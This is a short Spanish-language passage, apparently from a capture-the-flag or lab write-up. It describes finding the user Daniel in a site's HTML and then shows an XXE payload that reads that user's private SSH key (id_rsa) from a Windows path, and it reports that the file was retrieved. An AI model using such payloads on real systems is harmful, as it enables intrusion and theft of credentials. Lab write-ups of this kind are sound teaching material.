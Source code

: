 Como en la web hemos enumerado en el Codigo HTML el usuario Daniel, intentamos obtener la id_rsa de este usuario

![image.png](<imagenes/image 95.png>)

```php
<!DOCTYPE exploit [<!ENTITY xxe SYSTEM 'file:///c:/users/Daniel/.ssh/id_rsa'> ]>
```

Obtenemos el fichero:

![image.png](<imagenes/image 96.png>)
